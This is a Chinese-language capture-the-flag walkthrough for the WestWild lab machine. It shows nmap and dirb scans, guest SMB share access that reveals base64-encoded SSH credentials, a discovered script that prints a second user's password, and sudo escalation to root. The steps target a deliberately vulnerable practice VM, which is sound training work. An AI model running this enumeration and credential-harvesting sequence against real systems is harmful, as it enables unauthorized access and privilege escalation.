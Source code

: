 > 在这个靶机中有SMB服务，所以后续就根据这个找到了用户名及密码，最后才提权成功。所以信息收集很重要，以前我只看http服务，就忽略了其他的服务，也因为刚刚接触，所以经验也不足，只能慢慢摸索。



### nmap扫描

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 10.10.10.13
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-20 08:13 EST
Nmap scan report for bogon (10.10.10.13)
Host is up (0.00028s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 2.10 seconds
```

> 端口 22/tcp (SSH) 是开放的，这是用于安全远程登录和文件传输的协议。
> 端口 139/tcp (NetBIOS-SSN) 是开放的，这是用于共享文件和打印机的服务。
> 端口 445/tcp (Microsoft-DS) 是开放的，这是用于Microsoft Windows操作系统的文件共享、打印和域控制器服务。

nmap指定漏洞扫描也扫不出啥东西，这里省略。。。

### 目录扫描

```bash
┌──(kali㉿kali)-[~]
└─$ dirb http://10.10.10.13/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Feb 20 08:24:48 2024
URL_BASE: http://10.10.10.13/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.13/ ----
+ http://10.10.10.13/index.html (CODE:200|SIZE:263)
+ http://10.10.10.13/server-status (CODE:403|SIZE:291)
```

也没有扫出来什么东西

### Web渗透

访问80端口

![image-20240220214049109](imgs/image-20240220214049109.png)

如果要远程登录，那我们就需要知道用户名和密码，所以就先利用`SMB服务`，看看有哪些共享文件，所以先通过使用`smbmap`，扫描的`SMB`服务器的IP地址或主机名。`-H`选项用于指定要扫描的`SMB`服务器的`IP`地址或主机名。

```bash
┌──(kali㉿kali)-[~]
└─$ smbmap -H 10.10.10.13
[+] Guest session       IP: 10.10.10.13:445     Name: bogon
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        wave                                                    READ ONLY       WaveDoor
        IPC$                                                    NO ACCESS       IPC Service (WestWild server (Samba, Ubuntu))
```



![image-20240220214338720](imgs/image-20240220214338720.png)

发现了一个可读的文件`wave`,然后我们用`smbclient`访问并进入`wave`文件夹里

不需要密码就进去了

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.10.13/wave
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 30 01:18:56 2019
  ..                                  D        0  Thu Aug  1 19:02:20 2019
  FLAG1.txt                           N       93  Mon Jul 29 22:31:05 2019
  message_from_aveng.txt              N      115  Tue Jul 30 01:21:48 2019

                1781464 blocks of size 1024. 283700 blocks available
smb: \>
```



查看flag1，不能读，使用`get`下载下来

```bash
smb: \> cat flag1.txt
cat: command not found
smb: \> get flag1.txt
getting file \flag1.txt of size 93 as flag1.txt (8.3 KiloBytes/sec) (average 8.3 KiloBytes/sec)
smb: \>
```



![image-20240220214626942](imgs/image-20240220214626942.png)



解码地址：https://base64.us/

![image-20240220214828301](imgs/image-20240220214828301.png)

> user:wavex
> password:door+open

### 提权

#### ssh连接

![image-20240220214944949](imgs/image-20240220214944949.png)

找找其他可写文件

```bash
wavex@WestWild:~$ find / -writable -type f ! -path '/proc/*' 2>/dev/null
/sys/fs/cgroup/systemd/user/1001.user/1.session/tasks
/sys/fs/cgroup/systemd/user/1001.user/1.session/cgroup.procs
/sys/kernel/security/apparmor/policy/.remove
/sys/kernel/security/apparmor/policy/.replace
/sys/kernel/security/apparmor/policy/.load
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.ns_name
/sys/kernel/security/apparmor/.ns_level
/sys/kernel/security/apparmor/.ns_stacked
/sys/kernel/security/apparmor/.stacked
/sys/kernel/security/apparmor/.access
/usr/share/av/westsidesecret/ififoregt.sh
/home/wavex/.cache/motd.legal-displayed
/home/wavex/wave/FLAG1.txt
/home/wavex/wave/message_from_aveng.txt
/home/wavex/.profile
/home/wavex/.bashrc
/home/wavex/.viminfo
/home/wavex/.bash_logout
wavex@WestWild:~$
```



```bash
wavex@WestWild:~$ cat /usr/share/av/westsidesecret/ififoregt.sh
 #!/bin/bash
 figlet "if i foregt so this my way"
 echo "user:aveng"
 echo "password:kaizen+80"



wavex@WestWild:~$
```



```bash
wavex@WestWild:~$ su aveng
Password:
aveng@WestWild:/home/wavex$ sudo -l
[sudo] password for aveng:
Matching Defaults entries for aveng on WestWild:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aveng may run the following commands on WestWild:
    (ALL : ALL) ALL
aveng@WestWild:/home/wavex$ sudo /bin/bash
root@WestWild:/home/wavex# id
uid=0(root) gid=0(root) groups=0(root)
root@WestWild:/home/wavex# cd /root
root@WestWild:/root# ls
FLAG2.txt
root@WestWild:/root# cat FLAG2.txt
Flag2{Weeeeeeeeeeeellco0o0om_T0_WestWild}

Great! take a screenshot and Share it with me in twitter @HashimAlshareff




root@WestWild:/root#
```

提权！成功啦！
